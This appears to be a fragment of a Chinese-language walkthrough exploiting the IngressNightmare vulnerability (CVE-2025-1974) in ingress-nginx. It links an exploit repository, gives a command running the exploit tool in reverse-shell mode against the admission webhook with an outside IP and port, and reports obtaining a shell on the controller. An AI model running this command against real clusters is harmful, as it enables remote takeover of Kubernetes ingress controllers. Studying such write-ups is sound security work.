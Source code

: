 https://github.com/Esonhugh/ingressNightmare-CVE-2025-1974-exps

```
./ingressnightmare -m r -r 116.205.103.122 -p 2333 -i https://ingress-nginx-controller-admission.ingress-nginx.svc:443/networking/v1/ingresses -u http://ingress-nginx-controller.ingress-nginx.svc/fake/addr
```

![image-20250518100834953](images/18.png)

![image-20250518100926004](images/19.png)

通过对比看到已经获取到来看nginx-ingress-controller的shell

![image-20250518101042517](images/20.png)